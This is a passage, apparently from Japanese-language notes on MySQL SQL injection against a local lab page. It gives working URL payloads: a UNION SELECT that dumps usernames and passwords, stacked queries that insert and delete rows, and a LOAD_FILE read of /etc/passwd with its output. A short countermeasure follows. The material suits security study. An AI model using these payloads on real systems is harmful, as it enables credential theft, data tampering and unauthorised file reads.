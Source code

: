 ```
http://localhost:8888/mysql.php?user=&pass=' UNION ALL SELECT id, username, password FROM users;--+
```


**複文実行**

```
http://localhost:8888/mysql.php?user=&pass='; INSERT INTO users VALUES (1337, 'pwned', 'hello');--+
```

```
http://localhost:8888/mysql.php?user=&pass='; DELETE FROM users WHERE username='pwned';--+
```


## LOAD_FILE - Read file

### 前提条件

- secure-file-privが無効化されている場合（MySQL 5.7.5以前はデフォルト無効）


### 手順

#### Step 1: LOAD_FILEでファイルを読み出す

`load_file`関数を用いることでファイルの内容を読み出すことができる。

読みだした内容は、UNION SELECT文を使えばクエリの結果として出力させることができる。

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT NULL,NULL,load_file('/etc/passwd');--+
```

> result:
>
> id=, username=, password=root:​x:0:0:root:/root:/bin/bash daemon:​x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:​x:2:2:bin:/bin:/usr/sbin/nologin sys:​x:3:3:sys:/dev:/usr/sbin/nologin sync:​x:4:65534:sync:/bin:/bin/sync games:​x:5:60:games:/usr/games:/usr/sbin/nologin man:​x:6:12:​man:/var/cache/man:/usr/sbin/nologin lp:​x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:​x:8:8:mail:/var/mail:/usr/sbin/nologin news:​x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:​x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:​x:13:13:proxy:/bin:/usr/sbin/nologin www-data:​x:33:33:www-data:/var/www:/usr/sbin/nologin backup:​x:34:34:backup:/var/backups:/usr/sbin/nologin list:​x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:​x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:​x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:​x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:​x:​100:65534::/nonexistent:/usr/sbin/nologin mysql:​x:999:999::/home/mysql:/bin/sh


### 対策

- secure-file-privオプションを有効化してファイル読み込みを禁止する


## INTO OUTFILE - Write a PHP file to RCE
